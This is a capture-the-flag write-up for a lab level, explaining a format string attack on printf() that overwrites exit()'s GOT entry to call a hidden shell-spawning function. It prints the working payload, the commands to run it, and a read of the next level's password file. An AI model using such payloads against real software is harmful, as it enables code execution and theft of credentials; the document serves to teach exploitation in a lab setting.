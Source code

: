 # LEVEL5

Once again, a buffer overflow isn't possible because *fgets()* reads 512 characters into a 520-character buffer. However, we can perform a `Format String` attack using *printf()*. Additionally, there's a function *o()* that executes **"/bin/sh"** but is never called. To invoke *o()*, we can perform a `GOT overwrite`.

> When the program runs, the GOT (Global Offset Table) is initialized for all external functions (such as libc functions). Overwriting an address in the GOT, like one for a libc function, is known as a **GOT Overwrite**.

To construct the payload, we'll need to gather the following information:

- The memory offset where we need to write.
- The addresses of *exit()* and *o()*.

First, we'll determine the offset.

```
> ./level5
> AAAA %p %p %p %p %p %p %p %p %p %p
```

The offset is found at the fourth position. Next, we'll retrieve the addresses of *exit()* and *o()*.\
The function *exit()* is located in the GOT, so we need to examine it to obtain its address.

```
objdump -R level5
```
![alt text](Ressources/images/GOT.png)

The address of *exit()* is *0x08049838*.

```
objdump -d level5
```
![alt text](Ressources/images/o.png)

And the address of *o()* is *0x080484a4*.

Now, we can build the payload using all the informations we've gathered, following this template:\
`payload = address to overwrite + value to write + offset where to write`

```
python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")' > /tmp/payload5
```

The value to write is the address of o() converted to decimal, minus 4, since the address of exit() occupies 4 bytes.\
Finally, we can use the payload on the binary.

```
cat /tmp/payload5 - | ./level5
```

And retrieve the flag.

```
cat /home/user/level6/.pass
```

**LEVEL5 COMPLETE!**